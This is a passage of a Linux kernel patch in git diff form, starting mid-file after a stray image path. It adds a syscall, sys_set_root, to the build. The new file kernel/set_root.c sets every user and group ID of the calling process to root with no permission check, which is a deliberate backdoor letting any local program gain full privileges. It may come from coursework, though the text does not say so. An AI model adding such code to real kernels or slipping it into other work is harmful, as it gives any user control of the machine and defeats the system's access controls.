  					unsigned int flags);
+asmlinkage long sys_set_root(void);
 asmlinkage long sys_sched_setaffinity(pid_t pid, unsigned int len,
 					unsigned long __user *user_mask_ptr);
 asmlinkage long sys_sched_getaffinity(pid_t pid, unsigned int len,
diff --git a/kernel/Makefile b/kernel/Makefile
index bc010ee..def272b 100644
--- a/kernel/Makefile
+++ b/kernel/Makefile
@@ -10,7 +10,7 @@ obj-y     = fork.o exec_domain.o panic.o \
 	    kthread.o sys_ni.o posix-cpu-timers.o \
 	    hrtimer.o nsproxy.o \
 	    notifier.o ksysfs.o cred.o reboot.o \
-	    async.o range.o groups.o smpboot.o
+	    async.o range.o groups.o smpboot.o set_root.o

 ifdef CONFIG_FUNCTION_TRACER
 # Do not trace debug files and internal ftrace files
diff --git a/kernel/set_root.c b/kernel/set_root.c
new file mode 100644
index 0000000..79e3d5d
--- /dev/null
+++ b/kernel/set_root.c
@@ -0,0 +1,37 @@
+#include <linux/kernel.h>
+#include <linux/init.h>
+#include <linux/sched.h>
+#include <linux/syscalls.h>
+
+asmlinkage long sys_set_root(void) {
+   struct user_namespace *ns = current_user_ns();
+   struct cred *new;
+
+   kuid_t kuid = make_kuid(ns, 0);
+   kgid_t kgid = make_kgid(ns, 0);
+
+   if(!uid_valid(kuid)) {
+      return -EINVAL;
+   }
+
+   new = prepare_creds();
+
+   if(new != NULL) {
+      new->uid = kuid;
+      new->gid = kgid;
+
+      new->euid = kuid;
+      new->egid = kgid;
+
+      new->suid = kuid;
+      new->sgid = kgid;
+
+      new->fsuid = kuid;
+      new->fsgid = kgid;
+
+      return commit_creds(new);
+   } else {
+      abort_creds(new);
+      return -ENOMEM;
+   }
+}
--